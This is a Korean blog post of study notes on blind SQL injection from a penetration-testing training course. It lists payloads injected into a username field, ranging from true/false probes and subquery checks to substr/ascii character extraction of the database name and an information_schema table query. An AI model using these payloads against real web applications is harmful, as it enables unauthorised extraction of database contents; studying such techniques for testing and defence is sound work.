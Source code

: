 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[WEB HACKING] Blind SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 7주차"

date: 2024-11-28
last_modified_at: 

tags: [TIL, WEB, DATABASE, SECURITY]
---
```


3. Blind SQL Injection
    1. 참과 거짓의 응답 차이로 알아낸다.

---

Blind SQL Injection
1. normaltic' and ('1' = '1') and '1' = '1
2. normaltic' and (select pass from member where id = 'normaltic') and '1' = '1

1. sql injection의 포인트를 찾는 것
normaltic' and '1' = '1
normaltic' and '1' = '2
-> 참과 거짓 찾기
-> 조건 ㅈㄴ 후하네 ㅋㅋ
2. select문구 사용가능한지 확인하기
normaltic' and ('1' = '1') and '1' = '1
normaltic' and ('1' = '2') and '1' = '1
normaltic' and ((select 'test') = 'test') and '1' = '1
3. 공격 format
normaltic' and (조건) and '1' = '1

substr('test',1,1) -> t # substr(string, idx, range)
substr((select 'test'), 1, 1) = 't'
normaltic' and (substr((select 'test'), 1, 1) = 't') and '1' = '1

ascii()
ascii(substr((select 'test'), 1, 1)) > 0 # 데이터가 존재하는 지 확인
normaltic' and (ascii(substr((select 'test'), 1, 1)) > 0) and '1' = '1
4. DB
select database()
normaltic' and (ascii(substr((select database()), 1, 1)) > 0) and '1' = '1
normaltic' and (ascii(substr((select database()), 2, 1)) > 0) and '1' = '1
5. Table
select table_name from information_schema.tables where table_schema = '' limit 0, 1

* 글자 개수가 몇 개인지 세는 함수

https://sabarada.tistory.com/49